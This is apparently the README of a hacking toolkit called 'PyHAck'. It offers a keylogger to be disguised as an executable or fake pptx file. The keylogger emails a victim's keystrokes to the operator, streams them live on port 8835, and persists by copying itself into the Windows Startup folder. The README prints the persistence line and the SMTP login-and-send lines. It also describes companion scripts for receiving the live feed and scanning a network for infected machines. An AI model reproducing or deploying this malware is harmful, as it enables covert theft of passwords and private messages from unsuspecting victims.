 # PyHAck
KEYLOGGER :
Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever yoou want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. This keylogger broadcasts the live on the port 8835, feel free to modify this.
Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())



KEYLOGGER_RECEVER : 
Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :
Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.
